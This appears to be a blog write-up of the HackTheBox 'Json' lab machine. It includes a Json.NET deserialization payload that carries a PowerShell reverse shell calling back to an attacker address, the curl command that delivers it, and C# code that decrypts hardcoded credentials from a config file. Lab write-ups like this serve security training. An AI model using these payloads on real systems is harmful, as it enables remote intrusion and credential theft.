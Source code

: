 ```yaml
---
title: "Json - HackTheBox"
date: "2020-02-15"
tags: []
---
```


As usual, let's start with a port scan:
```
$ nmap -A -T4 10.10.10.158
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-16 10:11 EST
Nmap scan report for 10.10.10.158
Host is up (0.060s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          FileZilla ftpd
| ftp-syst:
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Json HTB
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h00m50s, deviation: 0s, median: 4h00m49s
|_nbstat: NetBIOS name: JSON, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:7a:c3 (VMware)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-02-16T19:13:29
|_  start_date: 2020-02-16T04:04:18
```

The server is composed of a login page:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/json/login.png)

And trying common credentials we find out that `admin:admin` works, but a non
functional web app is behind the login, so there's nothing to do there. An
interesting thing is that a cookie named `OAuth2` gets set, and decoding it's
base64 value we get:

```
{
  "Id": 1,
  "UserName": "admin",
  "Password": "21232f297a57a5a743894a0e4a801fc3",
  "Name": "User Admin HTB",
  "Rol": "Administrator"
}
```

By intercepting the request with Burp we can see that the same value will be
sent in the Bearer HTTP header:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/json/bearer.png)

Modifying it to a random value will trigger an error:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/json/error.png)

Using a base64 valid value we get another error:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/json/json-error.png)

This time we get more information about the backend, it seems like it uses
Json.NET to deserialize the data.

We can use [ysoserial](https://github.com/pwntester/ysoserial.net) to generate
custom payloads to exploit this vulnerability, you can read more about it
[here](https://speakerdeck.com/pwntester/attacking-net-serialization).

As the command that I want to execute contains a lot of characters that needs to
be escaped, I crafted the payload manually by modifing the one found on the
Github page, here is it:

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['powershell','-nop -c "$client = New-Object System.Net.Sockets.TCPClient(\'10.10.14.81\',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

It's just a basic reverse shell for Powershell. Save it in a file and after
running a netcat listener, make the request with `curl
http://10.10.10.158/api/Account -H "Bearer: $(base64 -w 0 <filename>)"`.

```
$ rlwrap nc -lnvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.158
Ncat: Connection from 10.10.10.158:50439.
PS C:\windows\system32\inetsrv> whoami
json\userpool
```

And we have a shell as `userpool`. Let's check if we can read the flag:
```
PS C:\windows\system32\inetsrv> Get-Acl C:\Users\userpool\Desktop\user.txt


    Directory: C:\Users\userpool\Desktop


Path                       Owner                      Access
----                       -----                      ------
user.txt                   JSON\userpool              NT AUTHORITY\SYSTEM Al...
```

## Privilege escalation

While inspecting the files on the drive, I found a curious one in `C:\Program
Files\Sync2Ftp\SyncLocation.exe.config`:
```
<?xml version="1.0" encoding="utf-8" ?>
<configuration>
  <appSettings>
    <add key="destinationFolder" value="ftp://localhost/"/>
    <add key="sourcefolder" value="C:\inetpub\wwwroot\jsonapp\Files"/>
    <add key="user" value="4as8gqENn26uTs9srvQLyg=="/>
    <add key="minute" value="30"/>
    <add key="password" value="oQ5iORgUrswNRsJKH9VaCw=="></add>
    <add key="SecurityKey" value="_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%"/>
  </appSettings>
  <startup>
    <supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.7.2" />
  </startup>


</configuration>
```

It looks like we have some encrypted credentials. We can use
[dnSpy](https://github.com/0xd4d/dnSpy) to reverse the `SyncLocation.exe` file
and understand more about how it decrypts the credentials:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/json/dnspy.png)

Cool, easy and simple! Let's copy the code and modify it a bit:
```csharp
using System;
using System.Text;
using System.Security.Cryptography;
using System.Configuration;

public class Program {
    public static string Decrypt(string cipherString, bool useHashing)
    {
        byte[] array = Convert.FromBase64String(cipherString);
        AppSettingsReader appSettingsReader = new AppSettingsReader();
        string s = "_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%";
        byte[] key;
        if (useHashing)
        {
            MD5CryptoServiceProvider md5CryptoServiceProvider = new MD5CryptoServiceProvider();
            key = md5CryptoServiceProvider.ComputeHash(Encoding.UTF8.GetBytes(s));
            md5CryptoServiceProvider.Clear();
        }
        else
        {
            key = Encoding.UTF8.GetBytes(s);
        }
        TripleDESCryptoServiceProvider tripleDESCryptoServiceProvider = new TripleDESCryptoServiceProvider();
        tripleDESCryptoServiceProvider.Key = key;
        tripleDESCryptoServiceProvider.Mode = CipherMode.ECB;
        tripleDESCryptoServiceProvider.Padding = PaddingMode.PKCS7;
        ICryptoTransform cryptoTransform = tripleDESCryptoServiceProvider.CreateDecryptor();
        byte[] bytes = cryptoTransform.TransformFinalBlock(array, 0, array.Length);
        tripleDESCryptoServiceProvider.Clear();
        return Encoding.UTF8.GetString(bytes);
    }

    public static void Main()
    {
        Console.WriteLine(Decrypt("4as8gqENn26uTs9srvQLyg==", true));
        Console.WriteLine(Decrypt("oQ5iORgUrswNRsJKH9VaCw==", true));
    }
}
```

We can use an online compile like [dotnetfiddle](https://dotnetfiddle.net/) and
after running it we get the credentials:
```
superadmin
funnyhtb
```

Using them to login into the FTP server allows us to read the flag:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/json/root.png)

Thanks for reading!
